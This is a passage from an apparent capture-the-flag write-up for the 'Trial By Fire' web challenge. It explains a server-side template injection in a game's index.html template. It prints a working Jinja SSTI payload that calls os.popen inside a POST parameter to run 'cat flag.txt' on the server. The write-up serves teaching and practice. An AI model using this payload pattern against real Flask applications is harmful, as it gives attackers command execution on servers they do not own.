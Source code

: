 ```python
damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat+flag.txt').read()}}&damage_taken=100&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=18.116
```

![Trial By Fire-02](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_web1-02.png)

Okay, now let's manipulate the POST request to `/battle-report` in the remote target. Here's the POC:

![Trial By Fire-03](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2025/_assets/htb-cyber-apocalypse_web1-03.png)

Actually, you can see the SSTI vulnerability directly in the given source code, specifically in the `/challenges/application/templates/index.html` . As the result, in the index page, it will show `49` that represent of `7*7` .

```html=
<!-- index.html -->

<body>
  <div class="home-container nes-container is-rounded">
    <h1 class="nes-text is-error">Welcome to the Flame Peaks</h1>
    <p class="nes-text">
      In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
      <br><br>
      Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
      <br><br>
      Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->
    </p>
    
    <form action="/begin" method="POST" class="warrior-form nes-container is-rounded">
      <div class="form-group">
        <label for="warrior_name" class="nes-text is-error">What is your name, brave warrior?</label>
        <input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
      </div>
      <button type="submit" class="nes-btn is-error challenge-button">
        ⚔️ Challenge the Fire Drake
      </button>
    </form>
  </div>
</body>
```

